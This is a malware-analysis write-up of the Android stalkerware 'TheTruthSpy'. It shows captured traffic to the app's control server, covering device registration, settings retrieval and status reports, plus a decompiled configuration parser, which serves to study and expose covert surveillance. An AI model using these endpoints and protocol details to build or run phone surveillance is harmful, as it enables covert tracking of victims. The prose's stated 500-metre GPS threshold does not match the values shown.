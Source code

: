 ## Dissection of an infection, 'TheTruthSpy'.

This will be an indepth look at what happens immediately after installation of 'TheTruthSpy', both on the Android phone itself and over the network.

Imeediately after the apk installation the app contacts the control server and transmits the 16 character hex value of the device's 'Secure Android ID'. 'Secure Android ID' is used by TheTruthSpy as an identifier for victim's devices, it is a 64-bit number that is generated randomly when the Android device is first booted. 

Below we can see this initial request and the response that the deviceid is not currently registered with TheTruthSpy.

```
GET /protocols/check_device_registered.aspx?deviceid=d4bc-803e-25f0-8913 HTTP/1.1
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 15:34:36 GMT

0
The device does not exist in the system.
```

The app then registers the phone with the email address and password provided by the user, along with the deviceid, the server responds that it has received this information.

```
GET /protocols/device_register.aspx?username=emillio.esneider@plutocow.com&password=p4ssw0rd&deviceid=d4bc-803e-25f0-8913 HTTP/1.1
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:03:40 GMT

1
```

The app then contacts getsetting.aspx, sending the deviceid, current time and operating system. It then receives back an initial configuration which details the last recorded instance of various recorded events, the email address to send updates to and a lot of configuration information in the format <*#>, with digits following the hash detailing various options.

```
POST /protocols/getsetting.aspx HTTP/1.1
Content-Length: 69
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17+08%3A03%3A50&os=ADHTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:03:52 GMT

<protocol-version:20150201-0900>,<*#3>,<*#6>,<*#8>,<*#11>,<*#13>,<*#15>,<*#21>,<*#24>,<*#27>,<*#30><0><50>,
<*#31><15>,<*#32><30>,<*#52>,<*#54>,<*#56>,<*#58>,<*#60>,<*#62>,<*#64>,<*#66>,<*#68>,<*#70>,<*#72>,<*#74>,
<*#352>,<*#78>,<*#82>,<*#84>,<*#86>,<*#88>,<*#94><#2013*>,<*#95><>,<*#96><>,<*#97><>,<*#102>,<*#111>
<WiFi/CellularData>,<*#76>,<*#372>,<*#376>,<*#382>,<*#386>,<*#392>,<*#394>,<*#396>,<*#398>,<*#1001>,<*#33>
<sms=2018-11-17 23:03:52;call=2018-11-17 23:03:52;contact=2018-11-17 23:03:52;app=2018-11-17 23:03:52;
photo=2018-11-17 23:03:52;url=2018-11-17 23:03:52;notes=2018-11-17 23:03:52;whatsapp=2018-11-17 23:03:52;
yahoo=2018-11-17 23:03:52;viber=2018-11-17 23:03:52;facebook=2018-11-17 23:03:52;skype=2018-11-17 23:03:52;
tango=2018-11-17 23:03:52;wechat=2018-11-17 23:03:52;ola=2018-11-17 23:03:52;hangouts=2018-11-17 23:03:52;
bbm=2018-11-17 23:03:52;line=2018-11-17 23:03:52;kik=2018-11-17 23:03:52;twitter=2018-11-17 23:03:52;
instagram=2018-11-17 23:03:52;snapchat=2018-11-17 23:03:52>,delivery-logs-to-email=emillio.esneider@plutocow.com
```

Decoding the configuration above is a little lengthy, but performing static analysis on TheTruthSpy.apk we can see what some of these options correspond to. 

                            ```
                } else {
                    if (!stringBuilder2.equals("<*#4>")) {
                        if (!stringBuilder2.equals("<*#3>")) {
                            if (stringBuilder2.equals("<*#84>")) {
                                edit.putBoolean("delivery_log_by_email_active", false);
                            } else if (stringBuilder2.equals("<*#83>")) {
                                edit.putBoolean("delivery_log_by_email_active", true);
                            } else if (stringBuilder2.equals("<*#7>")) {
                                edit.putBoolean("is_record_call_active", true);
                            } else if (stringBuilder2.equals("<*#8>")) {
                                edit.putBoolean("is_record_call_active", false);
                            } else if (stringBuilder2.equals("<*#30>")) {
                                stringBuilder2 = split2[1].substring(1, split2[1].length()).trim();
                                trim = split2[2].substring(1, split2[2].length()).trim();
                                if (stringBuilder2.length() <= 0 || trim.length() <= 0) {
                                    edit.putLong("gps_distance_filter", 200);
                                } else {
                                    edit.putLong("gps_distance_filter", Long.parseLong(stringBuilder2));
                                }
                                ```

So we can see that call recording is off, there is no "monitor number" configured for covert phone calls to eavesdrop and the delivery of logs by email is disabled also that gps_distance_filter is set to only send updates if the phone moves over 500 meters. There are many, many more configuration options shown, explaining them all is beyond the scope of this document.

The next post (below) to setsetting.aspx is transmitting the following string, URL encoded 'deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17 08:03:58&t=1&country=us¶ms=<*#11>,<*#13>,<*#68>,<*#58>,<*#76>,<*#15>,<*#21>,<*#52>,<*#56>,<*#60>,<*#31><15>,<*#31><30>,<*#94><#2013*>,<*#95><>,<*#97><>,<*#98><Full Android on Emulator>,<*#99><357242043237511>&os=Android 4.1.1#8.10'

```
POST /protocols/setsetting.aspx HTTP/1.1
Content-Length: 455
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&clienttime=2019-01-17+08%3A03%3A58&t=1&country=us&params=%3C*%2311%3E%2C%3C*%2313%3E%2C%3C*%2368%3E%2C%3C*%2358%3E%2C%3C*%2376%3E%2C%3C*%2315%3E%2C%3C*%2321%3E%2C%3C*%2352%3E%2C%3C*%2356%3E%2C%3C*%2360%3E%2C%3C*%2331%3E%3C15%3E%2C%3C*%2331%3E%3C30%3E%2C%3C*%2394%3E%3C%232013*%3E%2C%3C*%2395%3E%3C%3E%2C%3C*%2397%3E%3C%3E%2C%3C*%2398%3E%3CFull+Android+on+Emulator%3E%2C%3C*%2399%3E%3C357242043237511%3E&os=Android+4.1.1%238.10HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:04:01 GMT

1
```

```
POST /protocols/set_device_status.aspx HTTP/1.1
Content-Length: 203
Content-Type: application/x-www-form-urlencoded
Host: protocol-a810.thetruthspy.com
Connection: Keep-Alive

deviceid=d4bc-803e-25f0-8913&status=+start+working+on+2019-01-17+08%3A04%3A04&is_rooted_or_jailbroken=0&gps_option_turned=1&battery=100&wifi_enabled=0&network_available=1&datetime=2019-01-17+08%3A04%3A04HTTP/1.1 200 OK
Cache-Control: private
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/8.5
X-AspNetMvc-Version: 5.2
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 17 Jan 2019 16:04:03 GMT

1
```
